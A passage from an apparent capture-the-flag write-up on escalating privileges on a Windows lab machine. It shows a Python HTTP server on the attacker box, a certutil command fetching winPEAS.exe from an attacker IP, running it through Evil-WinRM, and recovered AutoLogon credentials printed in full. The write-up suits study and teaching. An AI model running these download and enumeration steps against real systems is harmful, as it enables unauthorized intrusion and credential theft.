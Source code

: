 We now have access as a low privilege user. From her we can now move to the user desktop and grab the user.txt flag.

## Privilege Escalation

Now that we have access as user we need to set ourselves up for privilege escalation. Firstly I setup a `Python SimpleHttpServer` in my Windows scripts directory on the attacking machine.

```
sudo python -m SimpleHTTPServer 80
```

I then download winPEAS.exe as this is normally the first thing I do when enumerating a system to look for any quick and easy wins.

```
certutil.exe -f -urlcache -split http://10.10.14.11/winPEAS.exe
```

After this has been downloaded we can run it from Evil-WinRM with the following:

```
cmd.exe /c winPEAS.exe
```

Once it has completed one of the first results back is regarding AutoLogon credentials for the account `svc_loanmanager:Moneymakestheworldgoround!`

![](<../../../.gitbook/assets/image (404).png>)
